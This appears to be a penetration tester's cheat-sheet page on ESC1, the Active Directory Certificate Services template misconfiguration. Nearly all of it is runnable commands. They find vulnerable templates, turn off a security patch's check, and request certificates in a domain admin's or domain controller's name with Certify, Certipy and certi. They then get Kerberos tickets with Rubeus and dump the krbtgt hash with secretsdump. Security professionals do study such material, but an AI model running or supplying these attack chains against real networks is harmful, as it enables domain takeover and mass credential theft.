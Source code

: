 ```yaml
---
description: Modifiable SAN + Smart Card Logon or Client Authentication or PKINIT Client Authentication EKUs
---
```


# ESC1

- [https://elkement.wordpress.com/2020/06/21/impersonating-a-windows-enterprise-admin-with-a-certificate-kerberos-pkinit-from-linux/](https://elkement.wordpress.com/2020/06/21/impersonating-a-windows-enterprise-admin-with-a-certificate-kerberos-pkinit-from-linux/)

The vulnerable certificate template allows requesters to specify a SAN in the CSR as well as allows Smart Card Logon (`1.3.6.1.4.1.311.20.2.2`) or Client Authentication (`1.3.6.1.5.5.7.3.2`) or PKINIT Client Authentication (`1.3.6.1.5.2.3.4`) EKUs.




## Enumerate

Find template with this misconfiguration with native Active Directory module:

```powershell
PS > Get-ADObject -LDAPFilter '(&(objectclass=pkicertificatetemplate)(!(mspki-enrollment-flag:1.2.840.113556.1.4.804:=2))(|(mspki-ra-signature=0)(!(mspki-ra-signature=*)))(|(pkiextendedkeyusage=1.3.6.1.4.1.311.20.2.2)(pkiextendedkeyusage=1.3.6.1.5.5.7.3.2) (pkiextendedkeyusage=1.3.6.1.5.2.3.4))(mspki-certificate-name-flag:1.2.840.113556.1.4.804:=1))' -SearchBase 'CN=Configuration,DC=megacorp,DC=local'
```




## Disable the KB5014754 Patch

Disable `szOID_NTDS_CA_SECURITY_EXT` extension checking (requires CertSvc restart):

```
Cmd > certutil.exe -setreg policy\DisableExtensionList +1.3.6.1.4.1.311.25.2
```




## Exploit



### Certutil

- [https://gist.github.com/b4cktr4ck2/95a9b908e57460d9958e8238f85ef8ee](https://gist.github.com/b4cktr4ck2/95a9b908e57460d9958e8238f85ef8ee)



### Certify

Request a certificate specifying the `/altname` as a domain admin:

```
Cmd > .\Certify.exe request /ca:CA01.megacorp.local\CorpCA /template:VulnTemplate /altname:DomAdmin
```

Convert `.pem` to a `.pfx` certificate:

```
$ openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
```

Request a TGT with the `.pfx` certificate:

```
Cmd > .\Rubeus.exe asktgt /domain:megacorp.local /dc:DC01.megacorp.local /user:DomAdmin /certificate:cert.pfx /password:Passw0rdPfx! /ptt
```



### Certipy

Enroll a certificate with privileged subject in SAN:

```
$ certipy req -u snovvcrash@megacorp.local -p 'Passw0rd!' -target CA01.megacorp.local -ca CorpCA -template VulnTemplate -upn administrator@megacorp.local -dc-ip 192.168.1.11
```

Request TGT providing the certificate and get the corresponding NT hash automatically:

```
$ certipy auth -pfx administrator.pfx -domain megacorp.local -username administrator -dc-ip 192.168.1.11
```



### certi

- [https://gist.github.com/Flangvik/15c3007dcd57b742d4ee99502440b250](https://gist.github.com/Flangvik/15c3007dcd57b742d4ee99502440b250)

Enroll a certificate with privileged subject in SAN:

```
$ certi.py req megacorp.local/snovvcrash@CA01.megacorp.local CorpCA -k -n --dc-ip 192.168.1.11 --template VulnTemplate --alt-name 'DC01$'
```

Request TGT providing certificate:

```
$ base64 -w0 DC01.pfx > DC01.pfx.b64
$ python3 gettgtpkinit.py megacorp.local/'DC01$' -pfx-base64 `cat DC01.pfx.b64` -pfx-pass admin -dc-ip 192.168.1.11 DC01.ccache
```

Request NT hash providing TGT or DCSync:

```
$ KRB5CCNAME=DC01.ccache python3 getnthash.py megacorp.local/'DC01$' -dc-ip 192.168.1.11 -key <AS_REP_ENC_KEY>
$ KRB5CCNAME=DC01.ccache secretsdump.py DC02.megacorp.local -dc-ip 192.168.1.11 -just-dc-user 'MEGACORP\krbtgt' -k -no-pass
```

